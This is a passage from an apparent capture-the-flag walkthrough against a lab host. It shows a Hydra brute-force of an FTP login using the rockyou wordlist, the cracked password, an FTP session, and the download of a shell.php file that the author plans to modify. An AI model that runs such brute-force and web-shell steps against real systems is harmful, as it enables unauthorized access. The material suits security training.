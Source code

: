 - We know that the user `jenny` changed the password.
- Let's brute force it using `hydra`.
```
$ hydra -l jenny -P /usr/share/wordlists/rockyou.txt ftp://10.10.108.36
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-07 17:02:35
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.108.36:21/
[21][ftp] host: 10.10.108.36   login: jenny   password: 987654321
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-07 17:03:04 
```
- Let's login through FTP using `jenny` as the username and `987654321` as the password.
```
$ ftp jenny@10.10.108.36
Connected to 10.10.108.36.
220 Hello FTP World!
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```
- Let's look around to find something important,
```
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-r--r--    1 1000     1000        10918 Feb 01  2021 index.html
-rwxrwxrwx    1 1000     1000         5493 Feb 01  2021 shell.php
226 Directory send OK.
```
- We can download these files using the `get` command.
```
ftp> get shell.php
local: shell.php remote: shell.php
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for shell.php (5493 bytes).
100% |***********************************************************************************************************************************************************************************************|  5493       64.89 KiB/s    00:00 ETA
226 Transfer complete.
5493 bytes received in 00:00 (24.22 KiB/s)
ftp> get index.html
local: index.html remote: index.html
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for index.html (10918 bytes).
100% |***********************************************************************************************************************************************************************************************| 10918        3.20 MiB/s    00:00 ETA
226 Transfer complete.
10918 bytes received in 00:00 (81.19 KiB/s)
```
- We have to modify the shell a bit.
